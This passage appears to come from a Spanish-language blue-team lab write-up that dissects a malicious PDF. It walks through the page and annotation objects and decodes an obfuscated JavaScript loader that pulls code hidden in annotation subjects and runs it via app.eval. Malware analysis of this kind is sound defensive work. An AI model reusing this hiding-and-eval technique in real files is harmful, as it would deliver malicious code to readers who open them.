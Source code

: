 La variable `SSS` hace referencia a un "page", un objeto /Page representa una página del documento.
Y el objeto 3 es un objeto del tipo "page" y hace referencia a 3 objetos: 
```bash 
obj 3 0
 Type: /Page
 Referencing: 6 0 R, 8 0 R, 2 0 R

  <<
    /Type /Page
    /MediaBox [ 0 0 612 792 ]
    /Annots [ 6 0 R 8 0 R ]
    /Parent 2 0 R
  >>
```

Los objetos 6 y 8 son del tipo /Annot: 

```
obj 6 0
 Type: /Annot
 Referencing: 7 0 R

  <<
    /Type /Annot
    /Subtype /Text
    /Name /Comment
    /Rect [ 200 250 300 320 ]
    /Subj 7 0 R
  >>

---------

obj 8 0
 Type: /Annot
 Referencing: 9 0 R

  <<
    /Type /Annot
    /Subtype /Text
    /Name /Comment
    /Rect [100 180 300 210 ]
    /Subj 9 0 R
  >>
```

Y hacen referencia a nuestros objetos 7 y 9, que ya extrajimos su contenido.  

En la segunda parte de código del obj 5 vemos que la variable `arr` divide la cadena usando el mismo formato que vimos en el objeto 10, así que hacemos lo mismo y notamos que es un código javascript:

```bash 
┌──(kali㉿kali)-[~/blue-labs/pdf]
└─$ sed 's/U_155bf62c9aU_7917ab39//g' obj10 | xxd -r -p > obj10.out

┌──(kali㉿kali)-[~/blue-labs/pdf]
└─$ cat obj10.out
____SS=1;____$5=____SSS[____SS].subject;____$S=0;____$=____$5.replace(/X_17844743X_170987743/g,"%");____S5=____SSS[____$S].subject;____$+=____S5.replace(/89af50d/g,"%");____$=____$.replace(/\n/,"");____$=____$.replace(/\r/,"");____S$=unescape(____$);app.eval(____S$);
```
